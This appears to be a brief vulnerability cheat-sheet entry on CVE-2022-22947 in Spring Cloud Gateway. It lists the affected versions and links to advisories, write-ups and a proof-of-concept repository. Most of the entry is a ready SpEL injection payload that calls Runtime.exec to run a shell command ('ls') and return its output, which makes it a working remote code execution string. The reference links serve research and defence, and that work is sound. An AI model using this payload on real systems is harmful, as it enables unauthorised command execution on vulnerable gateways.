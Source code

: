 ### CVE-2022-22947
```
#{new java.util.Scanner(T(java.lang.Process).getMethod('getInputStream').invoke(T(java.lang.Runtime).getRuntime().exec(new String[]{'ls'}))).useDelimiter('\A').next().replace('\n',' ')}
```
影响版本：
> org.springframework.cloud:spring-cloud-gateway-server
> [,3.0.7) [3.1.0,3.1.1) 

- https://tanzu.vmware.com/security/cve-2022-22947
- https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators
- https://blog.viettelcybersecurity.com/cve-2022-22947-spring-cloud-gateway-code-injection-vulnerability/
- https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/
- https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/
- https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947
- https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORKCLOUD-2415033
